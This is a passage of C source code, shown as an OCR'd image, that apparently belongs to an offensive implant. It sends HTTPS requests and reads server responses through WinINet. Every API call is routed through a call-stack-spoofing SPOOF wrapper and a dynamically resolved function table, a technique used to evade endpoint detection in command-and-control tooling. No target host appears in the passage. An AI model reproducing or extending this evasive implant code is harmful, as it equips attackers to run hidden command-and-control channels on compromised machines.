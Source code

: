 ```plain
                                           NULL, 
                                           NULL, 
                                           C_PTR( U_PTR( INTERNET_SERVICE_HTTP ) ), 
                                           0, 
                                           C_PTR( U_PTR( (DWORD_PTR)NULL ) ) );

    if (hSite)
    {
        // Create http request 
        LPCSTR acceptTypes[] = { C_PTR ( OFFSET ( "*/*" ) ), NULL };
        HINTERNET hReq = ( HINTERNET )SPOOF( pMemAddrs->Api.net.HttpOpenRequestA, 
                                              pMemAddrs->Api.net.hNet, 
                                              pMemAddrs->Api.net.size, 
                                              hSite, 
                                              verb, 
                                              uri, 
                                              NULL, 
                                              NULL, 
                                              acceptTypes, 
                                              C_PTR( U_PTR( INTERNET_FLAG_SECURE | INTERNET_FLAG_DONT_CACHE ) ),
                                              0);

        if (hReq)
        {
            // Set headers + content length values
            DWORD headersLen = 0;
            DWORD contentLen = 0;
            if (headers != NULL)
                headersLen = (DWORD)pMemAddrs->Api.msvcrt.strlen(headers);
            if (content != NULL)
                contentLen = (DWORD)pMemAddrs->Api.msvcrt.strlen(content);

            // Send http request using specified headers and content
            if ((BOOL) U_PTR ( SPOOF( pMemAddrs->Api.net.HttpSendRequest, 
                                       pMemAddrs->Api.net.hNet, 
                                       pMemAddrs->Api.net.size, 
                                       C_PTR ( hReq ), 
                                       headers, 
                                       C_PTR ( U_PTR( headersLen ) ), 
                                       content, 
                                       C_PTR ( U_PTR ( contentLen ) ) ) 
                ) == TRUE)
            {
                // Allocate a buffer to receive response from server
                // This should really be allocated dynamically, but 5K is enough for the requests we are making.
                lpResult = pMemAddrs->Api.msvcrt.calloc(5000, sizeof(char));

                // Call InternetReadFile in a loop until we have read everything.  
                DWORD dwBytesRead = 0, currbytes_read;
                BOOL bKeepReading = TRUE;
                do
                {
                    bKeepReading = (BOOL) U_PTR ( SPOOF( pMemAddrs->Api.net.InternetReadFile, 
                                                          pMemAddrs->Api.net.hNet, 
                                                          pMemAddrs->Api.net.size, 
                                                          C_PTR ( hReq ), 
                                                          C_PTR ( lpResult + dwBytesRead ),
                                                          C_PTR ( U_PTR ( 5000 - dwBytesRead ) ), 
                                                          C_PTR ( U_PTR ( &currbytes_read ) ) ) );
                    dwBytesRead += currbytes_read;
                } while (bKeepReading && currbytes_read);
```